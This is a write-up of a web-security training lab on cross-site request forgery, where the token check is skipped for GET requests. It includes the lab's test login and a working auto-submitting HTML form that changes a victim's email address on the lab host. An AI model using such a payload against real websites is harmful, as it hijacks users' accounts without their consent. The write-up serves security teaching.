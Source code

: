 # CSRF where token validation depends on request method
# Objective
This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests.\
To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.\
You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis
Even though the website have `csrf` token it might not handle correctly different types of requests.

|![](Images/image-2.png)|
|:--:| 
| *Test of change email functionality - CSRF token is preset* |


## Exploitation
In order to solve the lab the following steps must be completed:
- Craft correct payload (below) - use `GET` method in request
- `Store` it
- (Optional) Test it on yourselft - `View exploit`
- `Deliver exploit to victim`

All users have to have different emails addresses.

```html
<form method="GET" action="https://0a9a00070388d30d8685977d000f0006.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="attackeremail@email.com">
</form>

<script>
        document.forms[0].submit();
</script>
```

|![](Images/image-3.png)|
|:--:| 
| *Exploit server configuration* |
